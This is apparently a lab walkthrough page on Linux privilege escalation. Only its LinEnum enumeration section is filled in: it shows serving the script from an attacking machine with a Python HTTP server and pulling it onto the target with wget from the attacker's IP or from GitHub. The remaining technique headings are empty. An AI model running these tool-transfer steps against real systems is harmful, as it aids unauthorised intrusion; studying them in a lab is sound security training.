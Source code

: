 # Linux Privilege Escalation

## Enumeration

### LINENUM  

[Get Linenum](!https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)  

Gain access to the target machine

[Logged In](!/assets/Linux-PrivEsc-01-LinEnum-01.png)

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

[Python Server](!/assets/Linux-PrivEsc-01-LinEnum-02.png)  

On the target device, set up a location from where the script will run.  

[Target Locationls](!/assets/Linux-PrivEsc-01-LinEnum-03.png)  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

[wget LinEnum](!/assets/Linux-PrivEsc-01-LinEnum-04a.png)  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  




## SUID/GUID 

## Writeable /etc/passwd files

## Escaping the Vi editor

## Exploit Crontab

## Exploiting the PATH variable